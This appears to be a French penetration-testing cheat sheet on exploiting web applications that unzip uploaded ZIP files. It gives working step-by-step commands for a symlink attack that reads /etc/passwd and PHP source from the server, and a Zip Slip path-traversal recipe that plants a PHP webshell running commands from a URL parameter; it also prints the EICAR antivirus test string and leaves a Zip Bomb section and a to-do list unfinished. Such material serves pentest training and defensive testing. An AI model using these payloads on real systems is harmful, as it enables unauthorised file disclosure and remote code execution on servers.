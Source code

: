 # ZIP

**Facteur de risque** : Information Disclosure, RCE via LFI, DoS

**Extension** : `.zip`, `.zipx`

**Type MIME** : application/zip

**Description** : 

Le **ZIP** est un format de fichier permettant l'archivage *(utilisation d'un seul fichier pour stocker plusieurs fichiers)* et la compression de données *(diminution de l'espace occupé sur le support numérique)* sans perte de qualité.

Si un fichier ZIP téléversé est **décompressé** ensuite par le serveur, plusieurs attaques peuvent être effectué.

## Sommaire

- Information Disclosure : Zip Symlink
- RCE via LFI : Décompression dans d'autres dossiers / Zip Slip
- DoS : Zip Bomb
- Test anti malware avec Eicar

## Information Disclosure : Zip Symlink

Les archives peuvent contenir des liens symboliques. Un **lien symbolique** est un fichier spécial qui le lie à un autre fichier. En uploadant un ZIP contenant un lien symbolique qui sera décompressé par la suite, on peut accéder au fichier lié. Cette exploit permet donc de **récupérer des fichiers présents** sur le serveur.

### Pré-requis

- Le fichier ZIP doit être dézippé après avoir été uploadé.

- Pourvoir accéder à ces fichiers

### Attaque

1. Il faut créer d'abord le lien symbolique sur le fichier visé (ici /etc/passwd):

```shell
ln -s /etc/passwd passwd.txt
```

2. Puis d'archiver ce fichier (ajoutez *-r* pour archiver un dossier):

```shell
zip --symlinks passwd.zip passwd.txt
```

3. Et enfin, téléverser ce fichier `.zip`. Le fichier `passwd.txt` contiendra alors les données de `/etc/passwd` du serveur web.

On peut ainsi récupérer les fichiers présents dans le serveur, comme le code source d'une page par exemple :

```shell
ln -s /var/www/html/index.php index.php
```

## LFI : Décompression dans d'autres dossiers / Zip Slip

Les cybercriminels peuvent créer des archives Zip pour lancer des attaques par traversée de chemin afin **d’écraser des fichiers** importants sur les systèmes affectés, soit en les **détruisant**, soit en les **remplaçant** par d’autres fichiers malveillant

Cette méthode permet notamment de **d'échapper** au répertoires de téléchargement sécurisé, en remontant dans les répertoires non protégés pour pouvoir déposer un webshell par exemple.

### Pré-requis

- Le fichier Zip doit être dézippé après avoir été uploadé.

- Pourvoir accéder à ces fichiers

### Attaque

1. (Facultatif) Aller dans le répétoire `/tmp` pour créer le fichier d'archive maveillant :

```shell
cd /tmp
```

2. Écrire un webshell (ici en PHP) dans un fichier (ici `webshell.php`):

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

3. Puis, selon le niveau de profondeur voulu (ici jusqu'à 10), effetuez le code suivant :

```shell
for i in `seq 1 10`;do FILE=$FILE"xxA"; cp webshell.php $FILE"cmd.php";done
```

4. Puis compresser le tout :

```shell
zip cmd.zip xx*.php
```

5. Utiliser un éditeur hexadécimal pour changer les `xxA` en `../`
6. Et enfin, téléverser ce fichier `.zip` sur l'application. Le webshell apparaitra alors dans les dossiers parents.

https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/

## Eicar : Anti Malware Testfile

La plupart des logiciels antivirus détecte le fichier de test Eicar. En téléversant ce fichier dans une application, on peut vérifier la **présence** ou le **bon fonctionnement** du **logiciel antivirus**.

Le fichier de test **eicar.com** est un fichier exécutable en `.com` avec la chaîne ASCII suivante :

```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

**eicar_com.zip** est un archive `.zip` contenant le fichier de test Eicar. Un bon logiciel d'antivirus devra détecter le "virus", même à l'intérieur d'une archive.

Et **eicarcom2.zip** est un archive `.zip` contenant l'archive du fichier de test Eicar. Ce fichier peut être uploadé pour voir si le logiciel d'antivirus vérifie les archives sur plusieurs niveaux de profondeur.

## DoS : Zip Bomb

### Pré-requis

- Le fichier Zip doit être dézippé après avoir été uploadé.

## Reference

- ZIP :
  
  - [ZIP (format de fichier) — Wikipédia](https://fr.wikipedia.org/wiki/ZIP_(format_de_fichier))
  
  - https://book.hacktricks.xyz/pentesting-web/file-upload

- LFI : ZIP Symlink
  
  - [Challenges/Web - Serveur : File upload - ZIP [Root Me : plateforme d'apprentissage dédiée au Hacking et à la Sécurité de l'Information]](https://www.root-me.org/fr/Challenges/Web-Serveur/File-upload-ZIP)

- LFI : Décompression dans d'autres dossiers / ZIP Slip
  
  - [Compressed file upload and command execution &#8211; Silent Signal Techblog](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)
  
  - [GitHub - ptoomey3/evilarc: Create tar/zip archives that can exploit directory traversal vulnerabilities](https://github.com/ptoomey3/evilarc)
  
  - [GitHub - snyk/zip-slip-vulnerability: Zip Slip Vulnerability (Arbitrary file write through archive extraction)](https://github.com/snyk/zip-slip-vulnerability)

- Eicar : Anti Malware Testfile
  
  - [Anti Malware Testfile](https://www.eicar.org/?page_id=3950)

## Todo

- Pour les autresls archives.
- Ecrire un script pour pourvour décompresser dans d'autres dossiers
  [GitHub - ptoomey3/evilarc: Create tar/zip archives that can exploit directory traversal vulnerabilities](https://github.com/ptoomey3/evilarc)
- https://www.blackhat.com/docs/us-16/materials/us-16-Marie-I-Came-to-Drop-Bombs-Auditing-The-Compression-Algorithm-Weapons-Cache.pdf
- Ajouter `. zipx`
